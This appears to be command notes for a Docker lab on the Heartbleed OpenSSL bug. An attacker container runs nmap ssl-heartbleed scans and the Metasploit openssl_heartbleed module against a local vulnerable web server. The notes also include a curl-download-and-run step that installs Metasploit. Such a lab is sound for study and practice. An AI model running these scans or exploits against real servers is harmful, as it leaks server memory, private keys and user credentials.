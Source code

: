 # Start the attacker container image
docker compose run attacker bash
# Or
docker-compose run attacker bash

# Start web server
docker-compose up -d web-server


# Scan heartbleed vulnerability from the attacker container
nmap -sV -p 443 --script=ssl-heartbleed web-server
nmap -sV -p 443 --script=ssl-heartbleed IP-adder-of-web-server

# Scan from local machine not container
sudo nmap -sV -p 8443 --script=ssl-heartbleed 127.0.0.1


# Install Metasploit on Linux / macOS (AWS Ubuntu)
curl https://raw.githubusercontent.com/rapid7/metasploit-omnibus/master/config/templates/metasploit-framework-wrappers/msfupdate.erb > msfinstall && \
  chmod 755 msfinstall && \
  ./msfinstall
# Run Metasploit on Linux / macOS (AWS Ubuntu)
msfconsole
# From there, the program will ask you a couple of questions and will ask for a username and
# password. From there, the program will successfully start and we can get down to business.
# We will input the following to setup our program to target for the Heartbleed bug:
use auxiliary/scanner/ssl/openssl_heartbleed
set VERBOSE true
set RHOSTS 127.0.0.1
set RPORT 8443
exploit


# Run Metasploit on attacker container
msfconsole

use auxiliary/scanner/ssl/openssl_heartbleed
set VERBOSE true
set RHOSTS web-server
set RPORT 443
exploit


